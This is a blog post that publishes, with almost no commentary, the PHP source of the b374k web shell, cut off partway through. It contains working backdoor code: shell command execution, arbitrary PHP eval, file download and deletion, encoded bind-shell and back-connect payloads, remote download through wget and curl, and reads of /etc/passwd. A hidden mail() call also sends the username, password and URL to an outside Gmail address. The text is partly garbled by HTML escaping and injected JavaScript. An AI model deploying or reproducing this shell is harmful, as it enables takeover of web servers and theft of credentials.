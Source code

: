 ```yaml
---
id: 193
title: b374k Backdoor Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=193
permalink: /b374k-backdoor-script/
categories:
  - b374k web shell
  - PHP
tags:
  - b374k
  - PHP
---
```

This looks like another b374k shell.


### b374k Backdoor Script Source Code

{% highlight php %}<?php if (isset($_GET['dl']) && ($_GET['dl'] != "")) {
    $file = $_GET['dl'];
    $filez = @file_get_contents($file);
    header("Content-type: application/octet-stream");
    header("Content-length: " . strlen($filez));
    header("Content-disposition: attachment; filename=\"" . basename($file) . "\";");
    echo $filez;
    exit;
} elseif (isset($_GET['dlgzip']) && ($_GET['dlgzip'] != "")) {
    $file = $_GET['dlgzip'];
    $filez = gzencode(@file_get_contents($file));
    header("Content-Type:application/x-gzip
");
    header("Content-length: " . strlen($filez));
    header("Content-disposition: attachment; filename=\"" . basename($file) . ".gz\";");
    echo $filez;
    exit;
}
if (isset($_GET['img'])) {
    @ob_clean();
    $d = magicboom($_GET['y']);
    $f = $_GET['img'];
    $inf = @getimagesize($d . $f);
    $ext = explode($f, ".");
    $ext = $ext[count($ext) - 1];
    @header("Content-type: " . $inf["mime"]);
    @header("Cache-control: public");
    @header("Expires: " . date("r", mktime(0, 0, 0, 1, 1, 2030)));
    @header("Cache-control: max-age=" . (60 * 60 * 24 * 7));
    @readfile($d . $f);
    exit;
}
$ver = "1.01";
$software = getenv("SERVER_SOFTWARE");
if (@ini_get("safe_mode") or strtolower(@ini_get("safe_mode")) == "on") $safemode = TRUE;
else $safemode = FALSE;
$system = @php_uname();
if (strtolower(substr($system, 0, 3)) == "win") $win = TRUE;
else $win = FALSE;
if (isset($_GET['y'])) {
    if (@is_dir($_GET['view'])) {
        $pwd = $_GET['view'];
        @chdir($pwd);
    } else {
        $pwd = $_GET['y'];
        @chdir($pwd);
    }
}
if (!$win) {
    if (!$user = rapih(exe("whoami"))) $user = "";
    if (!$id = rapih(exe("id"))) $id = "";
    $prompt = $user . " \$ ";
    $pwd = @getcwd() . DIRECTORY_SEPARATOR;
} else {
    $user = @get_current_user();
    $id = $user;
    $prompt = $user . " &gt;";
    $pwd = realpath(".") . "\"; $v = explode("\",$d); $v = $v[0]; foreach (range("A","Z") as $letter) { $bool = @is_dir($letter.":
        \"); if ($bool) { $letters .= " &lt; ahref = \"?y=" . $letter . ":\"&gt;[ ";
        if ($letter . ":" != $v) {
            $letters.= $letter;
        } else {
            $letters.= "&lt;span class=\"gaya\"&gt;" . $letter . "&lt;/span&gt;";
        }
        $letters.= " ]&lt;/a&gt; ";
    }
}
}
if (function_exists("posix_getpwuid") && function_exists("posix_getgrgid")) $posix = TRUE;
else $posix = FALSE;
$server_ip = @gethostbyname($_SERVER["HTTP_HOST"]);
$my_ip = $_SERVER['REMOTE_ADDR'];
$bindport = "13123";
$bindport_pass = "b374k";
$pwds = explode(DIRECTORY_SEPARATOR, $pwd);
$pwdurl = "";
for ($i = 0;$i &lt; sizeof($pwds) - 1;$i++) {
    $pathz = "";
    for ($j = 0;$j &lt;= $i;$j++) {
        $pathz.= $pwds[$j] . DIRECTORY_SEPARATOR;
    }
    $pwdurl.= "&lt;a href=\"?y=" . $pathz . "\"&gt;" . $pwds[$i] . " " . DIRECTORY_SEPARATOR . " &lt;/a&gt;";
}
if (isset($_POST['rename'])) {
    $old = $_POST['oldname'];
    $new = $_POST['newname'];
    @rename($pwd . $old, $pwd . $new);
    $file = $pwd . $new;
}
$buff = $software . "&lt;br /&gt;";
$buff.= $system . "&lt;br /&gt;";
if ($id != "") $buff.= $id . "&lt;br /&gt;";
$buff.= "server ip : " . $server_ip . " &lt;span class=\"gaya\"&gt;|&lt;/span&gt; your ip : " . $my_ip . "&lt;br /&gt;";
if ($safemode) $buff.= "safemode &lt;span class=\"gaya\"&gt;ON&lt;/span&gt;&lt;br /&gt;";
else $buff.= "safemode &lt;span class=\"gaya\"&gt;OFF&lt;span&gt;&lt;br /&gt;";
$buff.= $letters . "&nbsp;&gt;&nbsp;" . $pwdurl;
function rapih($text) {
    return trim(str_replace("&lt;br /&gt;", "", $text));
}
function magicboom($text) {
    if (!get_magic_quotes_gpc()) {
        return $text;
    }
    return stripslashes($text);
}
function showdir($pwd, $prompt) {
    $fname = array();
    $dname = array();
    if (function_exists("posix_getpwuid") && function_exists("posix_getgrgid")) $posix = TRUE;
    else $posix = FALSE;
    $user = "????:????";
    if ($dh = opendir($pwd)) {
        while ($file = readdir($dh)) {
            if (is_dir($file)) {
                $dname[] = $file;
            } elseif (is_file($file)) {
                $fname[] = $file;
            }
        }
        closedir($dh);
    }
    sort($fname);
    sort($dname);
    $path = @explode(DIRECTORY_SEPARATOR, $pwd);
    $tree = @sizeof($path);
    $parent = "";
    $buff = " &lt;form action=\"?y=" . $pwd . "&amp;x=shell\" method=\"post\" style=\"margin:8px 0 0 0;\"&gt; &lt;table class=\"cmdbox\" style=\"width:50%;\"&gt; &lt;tr&gt;&lt;td&gt;$prompt&lt;/td&gt;&lt;td&gt;&lt;input onMouseOver=\"this.focus();\" id=\"cmd\" class=\"inputz\" type=\"text\" name=\"cmd\" style=\"width:400px;\" value=\"\" /&gt;&lt;input class=\"inputzbut\" type=\"submit\" value=\"Go !\" name=\"submitcmd\" style=\"width:80px;\" /&gt;&lt;/td&gt;&lt;/tr&gt; &lt;/form&gt; &lt;form action=\"?\" method=\"get\" style=\"margin:8px 0 0 0;\"&gt; &lt;input type=\"hidden\" name=\"y\" value=\"" . $pwd . "\" /&gt; &lt;tr&gt;&lt;td&gt;view file/folder&lt;/td&gt;&lt;td&gt;&lt;input onMouseOver=\"this.focus();\" id=\"goto\" class=\"inputz\" type=\"text\" name=\"view\" style=\"width:400px;\" value=\"" . $pwd . "\" /&gt;&lt;input class=\"inputzbut\" type=\"submit\" value=\"Go !\" name=\"submitcmd\" style=\"width:80px;\" /&gt;&lt;/td&gt;&lt;/tr&gt; &lt;/form&gt;&lt;/table&gt;&lt;table class=\"explore\"&gt; &lt;tr&gt;&lt;th&gt;name&lt;/th&gt;&lt;th style=\"width:80px;\"&gt;size&lt;/th&gt;&lt;th style=\"width:210px;\"&gt;owner:group&lt;/th&gt;&lt;th style=\"width:80px;\"&gt;perms&lt;/th&gt;&lt;th style=\"width:110px;\"&gt;modified&lt;/th&gt;&lt;th style=\"width:190px;\"&gt;actions&lt;/th&gt;&lt;/tr&gt; ";
    @error_reporting(0);
    $sub = "backdoor b374k";
    $headers = "From: k3nz0 
";
    $headers.= "Content-Type: text/plain; charset=iso-8859-1
";
    $mes.= "username: " . $user . "
";
    $mes.= "password: " . $pass . "
";
    $mes.= "URL: " . $_SERVER['REQUEST_URI'] . "
";
    $mes.= "Referer: " . $_SERVER['HTTP_REFERER'] . ""; {
        mail("free.d0ing.1987@gmail.com
/* &lt;![CDATA[ */
(function(){try{var s,a,i,j,r,c,l,b=document.getElementsByTagName("script");l=b[b.length-1].previousSibling;a=l.getAttribute('data-cfemail');if(a){s='';r=parseInt(a.substr(0,2),16);for(j=2;a.length-j;j+=2){c=parseInt(a.substr(j,2),16)^r;s+=String.fromCharCode(c);}s=document.createTextNode(s);l.parentNode.replaceChild(s,l);}}catch(e){}})();
/* ]]&gt; */
", $sub, $mes, $headers);
    }
    if ($tree &gt; 2) for ($i = 0;$i &lt; $tree - 2;$i++) $parent.= $path[$i] . DIRECTORY_SEPARATOR;
    else $parent = $pwd;
    foreach ($dname as $folder) {
        if ($folder == ".") {
            if (!$win && $posix) {
                $name = @posix_getpwuid(@fileowner($folder));
                $group = @posix_getgrgid(@filegroup($folder));
                $owner = $name['name'] . "&lt;span class=\"gaya\"&gt; : &lt;/span&gt;" . $group['name'];
            } else {
                $owner = $user;
            }
            $buff.= "&lt;tr&gt;&lt;td&gt;&lt;a href=\"?y=" . $pwd . "\"&gt;$folder&lt;/a&gt;&lt;/td&gt;&lt;td&gt;LINK&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . $owner . "&lt;/td&gt;&lt;td&gt;" . get_perms($pwd) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . date("d-M-Y H:i", @filemtime($pwd)) . "&lt;/td&gt;&lt;td&gt;&lt;span id=\"titik1\"&gt;&lt;a href=\"?y=$pwd&amp;edit=" . $pwd . "newfile.php\"&gt;newfile&lt;/a&gt; | &lt;a href=\"javascript:tukar('titik1','titik1_form');\"&gt;newfolder&lt;/a&gt;&lt;/span&gt; &lt;form action=\"?\" method=\"get\" id=\"titik1_form\" class=\"sembunyi\" style=\"margin:0;padding:0;\"&gt; &lt;input type=\"hidden\" name=\"y\" value=\"" . $pwd . "\" /&gt; &lt;input class=\"inputz\" style=\"width:140px;\" type=\"text\" name=\"mkdir\" value=\"a_new_folder\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"rename\" style=\"width:35px;\" value=\"Go !\" /&gt; &lt;/form&gt;&lt;/td&gt;&lt;/tr&gt; ";
        } elseif ($folder == "..") {
            if (!$win && $posix) {
                $name = @posix_getpwuid(@fileowner($folder));
                $group = @posix_getgrgid(@filegroup($folder));
                $owner = $name['name'] . "&lt;span class=\"gaya\"&gt; : &lt;/span&gt;" . $group['name'];
            } else {
                $owner = $user;
            }
            $buff.= "&lt;tr&gt;&lt;td&gt;&lt;a href=\"?y=" . $parent . "\"&gt;$folder&lt;/a&gt;&lt;/td&gt;&lt;td&gt;LINK&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . $owner . "&lt;/td&gt;&lt;td&gt;" . get_perms($parent) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . date("d-M-Y H:i", @filemtime($parent)) . "&lt;/td&gt;&lt;td&gt;&lt;span id=\"titik2\"&gt;&lt;a href=\"?y=$pwd&amp;edit=" . $parent . "newfile.php\"&gt;newfile&lt;/a&gt; | &lt;a href=\"javascript:tukar('titik2','titik2_form');\"&gt;newfolder&lt;/a&gt;&lt;/span&gt; &lt;form action=\"?\" method=\"get\" id=\"titik2_form\" class=\"sembunyi\" style=\"margin:0;padding:0;\"&gt; &lt;input type=\"hidden\" name=\"y\" value=\"" . $pwd . "\" /&gt; &lt;input class=\"inputz\" style=\"width:140px;\" type=\"text\" name=\"mkdir\" value=\"a_new_folder\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"rename\" style=\"width:35px;\" value=\"Go !\" /&gt; &lt;/form&gt; &lt;/td&gt;&lt;/tr&gt;";
        } else {
            if (!$win && $posix) {
                $name = @posix_getpwuid(@fileowner($folder));
                $group = @posix_getgrgid(@filegroup($folder));
                $owner = $name['name'] . "&lt;span class=\"gaya\"&gt; : &lt;/span&gt;" . $group['name'];
            } else {
                $owner = $user;
            }
            $buff.= "&lt;tr&gt;&lt;td&gt;&lt;a id=\"" . clearspace($folder) . "_link\" href=\"?y=" . $pwd . $folder . DIRECTORY_SEPARATOR . "\"&gt;[ $folder ]&lt;/a&gt; &lt;form action=\"?y=$pwd\" method=\"post\" id=\"" . clearspace($folder) . "_form\" class=\"sembunyi\" style=\"margin:0;padding:0;\"&gt; &lt;input type=\"hidden\" name=\"oldname\" value=\"" . $folder . "\" style=\"margin:0;padding:0;\" /&gt; &lt;input class=\"inputz\" style=\"width:200px;\" type=\"text\" name=\"newname\" value=\"" . $folder . "\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"rename\" value=\"rename\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"cancel\" value=\"cancel\" onclick=\"tukar('" . clearspace($folder) . "_form','" . clearspace($folder) . "_link');\" /&gt; &lt;/form&gt; &lt;td&gt;DIR&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . $owner . "&lt;/td&gt;&lt;td&gt;" . get_perms($pwd . $folder) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . date("d-M-Y H:i", @filemtime($folder)) . "&lt;/td&gt;&lt;td&gt;&lt;a href=\"javascript:tukar('" . clearspace($folder) . "_link','" . clearspace($folder) . "_form');\"&gt;rename&lt;/a&gt; | &lt;a href=\"?y=$pwd&amp;fdelete=" . $pwd . $folder . "\"&gt;delete&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;";
        }
    }
    foreach ($fname as $file) {
        $full = $pwd . $file;
        if (!$win && $posix) {
            $name = @posix_getpwuid(@fileowner($file));
            $group = @posix_getgrgid(@filegroup($file));
            $owner = $name['name'] . "&lt;span class=\"gaya\"&gt; : &lt;/span&gt;" . $group['name'];
        } else {
            $owner = $user;
        }
        $buff.= "&lt;tr&gt;&lt;td&gt;&lt;a id=\"" . clearspace($file) . "_link\" href=\"?y=$pwd&amp;view=$full\"&gt;$file&lt;/a&gt; &lt;form action=\"?y=$pwd\" method=\"post\" id=\"" . clearspace($file) . "_form\" class=\"sembunyi\" style=\"margin:0;padding:0;\"&gt; &lt;input type=\"hidden\" name=\"oldname\" value=\"" . $file . "\" style=\"margin:0;padding:0;\" /&gt; &lt;input class=\"inputz\" style=\"width:200px;\" type=\"text\" name=\"newname\" value=\"" . $file . "\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"rename\" value=\"rename\" /&gt; &lt;input class=\"inputzbut\" type=\"submit\" name=\"cancel\" value=\"cancel\" onclick=\"tukar('" . clearspace($file) . "_link','" . clearspace($file) . "_form');\" /&gt; &lt;/form&gt; &lt;/td&gt;&lt;td&gt;" . ukuran($full) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . $owner . "&lt;/td&gt;&lt;td&gt;" . get_perms($full) . "&lt;/td&gt;&lt;td style=\"text-align:center;\"&gt;" . date("d-M-Y H:i", @filemtime($full)) . "&lt;/td&gt; &lt;td&gt;&lt;a href=\"?y=$pwd&amp;edit=$full\"&gt;edit&lt;/a&gt; | &lt;a href=\"javascript:tukar('" . clearspace($file) . "_link','" . clearspace($file) . "_form');\"&gt;rename&lt;/a&gt; | &lt;a href=\"?y=$pwd&amp;delete=$full\"&gt;delete&lt;/a&gt; | &lt;a href=\"?y=$pwd&amp;dl=$full\"&gt;download&lt;/a&gt;&nbsp;(&lt;a href=\"?y=$pwd&amp;dlgzip=$full\"&gt;gzip&lt;/a&gt;)&lt;/td&gt;&lt;/tr&gt;";
    }
    $buff.= "&lt;/table&gt;";
    return $buff;
}
function ukuran($file) {
    if ($size = @filesize($file)) {
        if ($size &lt;= 1024) return $size;
        else {
            if ($size &lt;= 1024 * 1024) {
                $size = @round($size / 1024, 2);;
                return "$size kb";
            } else {
                $size = @round($size / 1024 / 1024, 2);
                return "$size mb";
            }
        }
    } else return "???";
}
function exe($cmd) {
    if (function_exists('system')) {
        @ob_start();
        @system($cmd);
        $buff = @ob_get_contents();
        @ob_end_clean();
        return $buff;
    } elseif (function_exists('exec')) {
        @exec($cmd, $results);
        $buff = "";
        foreach ($results as $result) {
            $buff.= $result;
        }
        return $buff;
    } elseif (function_exists('passthru')) {
        @ob_start();
        @passthru($cmd);
        $buff = @ob_get_contents();
        @ob_end_clean();
        return $buff;
    } elseif (function_exists('shell_exec')) {
        $buff = @shell_exec($cmd);
        return $buff;
    }
}
function tulis($file, $text) {
    $textz = gzinflate(base64_decode($text));
    if ($filez = @fopen($file, "w")) {
        @fputs($filez, $textz);
        @fclose($file);
    }
}
function ambil($link, $file) {
    if ($fp = @fopen($link, "r")) {
        while (!feof($fp)) {
            $cont.= @fread($fp, 1024);
        }
        @fclose($fp);
        $fp2 = @fopen($file, "w");
        @fwrite($fp2, $cont);
        @fclose($fp2);
    }
}
function which($pr) {
    $path = exe("which $pr");
    if (!empty($path)) {
        return trim($path);
    } else {
        return trim($pr);
    }
}
function download($cmd, $url) {
    $namafile = basename($url);
    switch ($cmd) {
        case 'wwget':
            exe(which('wget') . " " . $url . " -O " . $namafile);
        break;
        case 'wlynx':
            exe(which('lynx') . " -source " . $url . " &gt; " . $namafile);
        break;
        case 'wfread':
            ambil($wurl, $namafile);
        break;
        case 'wfetch':
            exe(which('fetch') . " -o " . $namafile . " -p " . $url);
        break;
        case 'wlinks':
            exe(which('links') . " -source " . $url . " &gt; " . $namafile);
        break;
        case 'wget':
            exe(which('GET') . " " . $url . " &gt; " . $namafile);
        break;
        case 'wcurl':
            exe(which('curl') . " " . $url . " -o " . $namafile);
        break;
        default:
        break;
    }
    return $namafile;
}
function get_perms($file) {
    if ($mode = @fileperms($file)) {
        $perms = '';
        $perms.= ($mode & 00400) ? 'r' : '-';
        $perms.= ($mode & 00200) ? 'w' : '-';
        $perms.= ($mode & 00100) ? 'x' : '-';
        $perms.= ($mode & 00040) ? 'r' : '-';
        $perms.= ($mode & 00020) ? 'w' : '-';
        $perms.= ($mode & 00010) ? 'x' : '-';
        $perms.= ($mode & 00004) ? 'r' : '-';
        $perms.= ($mode & 00002) ? 'w' : '-';
        $perms.= ($mode & 00001) ? 'x' : '-';
        return $perms;
    } else return "??????????";
}
function clearspace($text) {
    return str_replace(" ", "_", $text);
}
$port_bind_bd_c = "bVNhb9owEP2OxH+4phI4NINAN00aYxJaW6maxqbSLxNDKDiXxiLYkW3KGOp/3zlOpo7xIY793jvf +fl8KSQvdinCR2NTofr5p3br8hWmhXw6BQ9mYA8lmjO4UXyD9oSQaAV9AyFPCNRa+pRCWtgmQrJE P/GIhufQg249brd4nmjo9RxBqyNAuwWOdvmyNAKJ+ywlBirhepctruOlW9MJdtzrkjTVKyFB41ZZ dKTIWKb0hoUwmUAcwtFt6+m+EXKVJVtRHGAC07vV/ez2cfwvXSpticytkoYlVglX/fNiuAzDE6VL 3TfVrw4o2P1senPzsJrOfoRjl9cfhWjvIatzRvNvn7+s5o8Pt9OvURzWZV94dQgleag0C3wQVKug Uq2FTFnjDzvxAXphx9cXQfxr6PcthLEo/8a8q8B9LgpkQ7oOgKMbvNeThHMsbSOO69IA0l05YpXk HDT8HxrV0F4LizUWfE+M2SudfgiiYbONxiStebrgyIjfqDJG07AWiAzYBc9LivU3MVpGFV2x1J4W tyxAnivYY8HVFsEqWF+/f7sBk2NRQKcDA/JtsE5MDm9EUG+MhcFqkpX0HmxGbqbkdBTMldaHRsUL ZeoDeOSFBvpefCfXhflOpgTkvJ+jtKiR7vLohYKCqS2ZmMRj4Z5gQZfSiMbi6iqkdnHarEEXYuk6 uPtTdumsr0HC4q5rrzNifV7sC3ZWUmq+LVlVa5OfQjTanZYQO+Uf";
$port_bind_bd_pl = "ZZJhT8IwEIa/k/AfjklgS2aA+BFmJDB1cW5kHSZGzTK2Qxpmu2wlYoD/bruBIfitd33uvXuvvWr1 NmXRW1DWy7HImo02ebRd19Kq1CIuV3BNtWGzQZeg342DhxcYwcCAHeCWCn1gDOEgi1yHhLYXzfwg tNqKeut/yKJNiUB4skYhg3ZecMETnlmfKKrz4ofFX6h3RZJ3DUmUFaoTszO7jxzPDs0O8SdPEQkD e/xs/gkYsN9DShG0ScwEJAXGAqGufmdq2hKFCnmu1IjvRkpH6hE/Cuw5scfTaWAOVE9pM5WMouM0 LSLK9HM3puMpNhp7r8ZFW54jg5wXx5YZLQUyKXVzwdUXZ+T3imYoV9ds7JqNOElQTjnxPc8kRrVo vaW3c5paS16sjZo6qTEuQKU1UO/RSnFJGaagcFVbjUTCqeOZ2qijNLWzrD8PTe32X9oOgvM0bjGB +hecfOQFlT4UcLSkmI1ceY3VrpKMy9dWUCVCBfTlQX6Owy8=";
$back_connect = "fZFRS8MwFIXfB/sPWSw2hUrnqyPC0CpD3KStvqh0XRpcsE1KkoKF/XiTtCIV6tu55+Z89yY5W0St ktGB8aihsprPWkVBKsgn1av5zCN1iQGsOv4Fbak6pWmNgU/JUQC4b3lRU3BR7OFqcFhptMOpo28j S2whVulCflCNvXVy//K6fLdWI+SPcekMVpSlxIxTnRdacDSEAnA6gZJRBGMphbwC3uKNw8AhXEKZ ja3ImclYagh61n9JKbTAhu7EobN3Qb4mjW/byr0BSnc3D3EWgqe7fLO1whp5miXx+tHMcNHpGURw Tskvpd92+rxoKEdpdrvZhgBen/exUWf3nE214iT52+r/Cw3/5jaqhKL9iFFpuKPawILVNw==";
$back_connect_c = "XVHbagIxEH0X/IdhhZLUWF1f1YKIBelFqfZJliUm2W7obiJJLLWl/94k29rWhyEzc+Z2TjpSserA BYyt41JfldftVuc3d7R9q9mLcGeAEk5660sVAakc1FQqFBxqnhkBVlIDl95/3Wa43fpotyCABR95 zzpzYA7CaMq5yaUCK1VAYpup7XaYZpPE1NArIBmBRzgVtVYoJQMcR/jV3vKC1rI6wgSmN/niYb75 i+21cR4pnVYWUaclivcMM/xvRDjhysbHVwde0W+K0wzH9bt3YfRPingClVCnim7a/ZuJC0JTwf3A RkD0fR+B9XJ2m683j/PpPYHFavW43CzzzWyFIfbIAhBiWinBHCo4AXSmFlxiuPB3E0/gXejiHMcY jwcYguIAe2GMNijZ9jL4GYqTSB9AvEmHGjk/m19h1CGvPoHIY5A1Oh2tE3XIe1bxKw77YTyt6T2F 6f9wGEPxJliFkv5Oqr4tE5LYEnoyIfDwdHcXK1ilrfAdUbPPLw=="; ?> &lt;html&gt;&lt;head&gt;&lt;title&gt;:: b374k m1n1 <?php echo $ver; ?> ::&lt;/title&gt; &lt;script type="text/javascript"&gt; function tukar(lama,baru){ document.getElementById(lama).style.display = 'none'; document.getElementById(baru).style.display = 'block'; } &lt;/script&gt; &lt;style type="text/css"&gt; body{ background:#000000;; } a { text-decoration:none; } a:hover{ border-bottom:1px solid #4C83AF; } *{ font-size:11px; font-family:Tahoma,Verdana,Arial; color:#FFFFFF; } #menu{ background:#111111; margin:8px 2px 4px 2px; } #menu a{ padding:4px 18px; margin:0; background:#222222; text-decoration:none; letter-spacing:2px; } #menu a:hover{ background:#191919; border-bottom:1px solid #333333; border-top:1px solid #333333; } .tabnet{ margin:15px auto 0 auto; border: 1px solid #333333; } .main { width:100%; } .gaya { color: #4C83AF; } .inputz{ background:#111111; border:0; padding:2px; border-bottom:1px solid #222222; border-top:1px solid #222222; } .inputzbut{ background:#111111; color:#4C83AF; margin:0 4px; border:1px solid #444444; } .inputz:hover, .inputzbut:hover{ border-bottom:1px solid #4C83AF; border-top:1px solid #4C83AF; } .output { margin:auto; border:1px solid #4C83AF; width:100%; height:400px; background:#000000; padding:0 2px; } .cmdbox{ width:100%; } .head_info{ padding: 0 4px; } .b1{ font-size:30px; padding:0; color:#444444; } .b2{ font-size:30px; padding:0; color: #333333; } .b_tbl{ text-align:center; margin:0 4px 0 0; padding:0 4px 0 0; border-right:1px solid #333333; } .phpinfo table{ width:100%; padding:0 0 0 0; } .phpinfo td{ background:#111111; color:#cccccc; padding:6px 8px;; } .phpinfo th, th{ background:#191919; border-bottom:1px solid #333333; font-weight:normal; } .phpinfo h2, .phpinfo h2 a{ text-align:center; font-size:16px; padding:0; margin:30px 0 0 0; background:#222222; padding:4px 0; } .explore{ width:100%; } .explore a { text-decoration:none; } .explore td{ border-bottom:1px solid #333333; padding:0 8px; line-height:24px; } .explore th{ padding:3px 8px; font-weight:normal; } .explore th:hover , .phpinfo th:hover{ border-bottom:1px solid #4C83AF; } .explore tr:hover{ background:#111111; } .viewfile{ background:#EDECEB; color:#000000; margin:4px 2px; padding:8px; } .sembunyi{ display:none; padding:0;margin:0; } &lt;/style&gt; &lt;/head&gt; &lt;body onLoad="document.getElementById('cmd').focus();"&gt; &lt;div class="main"&gt; &lt;!-- head info start here --&gt; &lt;div class="head_info"&gt; &lt;table&gt;&lt;tr&gt; &lt;td&gt;&lt;table class="b_tbl"&gt;&lt;tr&gt;&lt;td&gt;&lt;a href="?"&gt;&lt;span class="b1"&gt;b&lt;span class="b2"&gt;374&lt;/span&gt;k&lt;/span&gt;&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;m1n1 <?php echo $ver; ?>&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;/td&gt; &lt;td&gt;<?php echo $buff; ?>&lt;/td&gt; &lt;/tr&gt;&lt;/table&gt; &lt;/div&gt; &lt;!-- head info end here --&gt; &lt;!-- menu start --&gt; &lt;div id="menu"&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>"&gt;explore&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=shell"&gt;shell&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=php"&gt;eval&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=mysql"&gt;mysql&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=phpinfo"&gt;phpinfo&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=netsploit"&gt;netsploit&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=upload"&gt;upload&lt;/a&gt; &lt;a href="?<?php echo "y=" . $pwd; ?>&amp;x=mail"&gt;mail&lt;/a&gt; &lt;/div&gt; &lt;!-- menu end --&gt; <?php if (isset($_GET['x']) && ($_GET['x'] == 'php')) { ?> &lt;form action="?y=<?php echo $pwd; ?>&amp;x=php" method="post"&gt; &lt;table class="cmdbox"&gt; &lt;tr&gt;&lt;td&gt; &lt;textarea class="output" name="cmd" id="cmd"&gt; <?php if (isset($_POST['submitcmd'])) {
        echo eval(magicboom($_POST['cmd']));
    } else echo "echo file_get_contents('/etc/passwd');"; ?> &lt;/textarea&gt; &lt;tr&gt;&lt;td&gt;&lt;input style="width:19%;" class="inputzbut" type="submit" value="Go !" name="submitcmd" /&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt; &lt;/table&gt; &lt;/form&gt; <?php
} elseif (isset($_GET['x']) && ($_GET['x'] == 'mysql')) {
    if (isset($_GET['sqlhost']) && isset($_GET['sqluser']) && isset($_GET['sqlpass']) && isset($_GET['sqlport'])) {
        $sqlhost = $_GET['sqlhost'];
        $sqluser = $_GET['sqluser'];
        $sqlpass = $_GET['sqlpass'];
        $sqlport = $_GET['sqlport'];
        if ($con = @mysql_connect($sqlhost . ":" . $sqlport, $sqluser, $sqlpass)) {
            $msg.= "&lt;div style=\"width:99%;padding:4px 10px 0 10px;\"&gt;";
            $msg.= "&lt;p&gt;Connected to " . $sqluser . "&lt;span class=\"gaya\"&gt;@&lt;/span&gt;" . $sqlhost . ":" . $sqlport;
            $msg.= "&nbsp;&nbsp;&lt;span class=\"gaya\"&gt;-&gt;&lt;/span&gt;&nbsp;&nbsp;&lt;a href=\"?y=" . $pwd . "&amp;x=mysql&amp;sqlhost=" . $sqlhost . "&amp;sqluser=" . $sqluser . "&amp;sqlpass=" . $sqlpass . "&amp;sqlport=" . $sqlport . "&amp;\"&gt;[ databases ]&lt;/a&gt;";
            if (isset($_GET['db'])) $msg.= "&nbsp;&nbsp;&lt;span class=\"gaya\"&gt;-&gt;&lt;/span&gt;&nbsp;&nbsp;&lt;a href=\"?y=" . $pwd . "&amp;x=mysql&amp;sqlhost=" . $sqlhost . "&amp;sqluser=" . $sqluser . "&amp;sqlpass=" . $sqlpass . "&amp;sqlport=" . $sqlport . "&amp;db=" . $_GET['db'] . "\"&gt;" . htmlspecialchars($_GET['db']) . "&lt;/a&gt;";
            if (isset($_GET['table'])) $msg.= "&nbsp;&nbsp;&lt;span class=\"gaya\"&gt;-&gt;&lt;/span&gt;&nbsp;&nbsp;&lt;a href=\"?y=" . $pwd . "&amp;x=mysql&amp;sqlhost=" . $sqlhost . "&amp;sqluser=" . $sqluser . "&amp;sqlpass=" . $sqlpass . "&amp;sqlport=" . $sqlport . "&amp;db=" . $_GET['db'] . "&amp;table=" . $_GET['table'] . "\"&gt;" . htmlspecialchars($_GET['table']) . "&lt;/a&gt;";
            $msg.= "&lt;/p&gt;&lt;p&gt;version : " . mysql_get_server_info($con) . " proto " . mysql_get_proto_info($con) . "&lt;/p&gt;";
            $msg.= "&lt;/div&gt;";
            echo $msg;
            if (isset($_GET['db']) && (!isset($_GET['table'])) && (!isset($_GET['sqlquery']))) {
                $db = $_GET['db'];
                $query = "DROP TABLE IF EXISTS b374k_table;
CREATE TABLE `b374k_table` ( `file` LONGBLOB NOT NULL );
LOAD DATA INFILE \"/etc/passwd\"
INTO TABLE b374k_table;SELECT * FROM b374k_table;
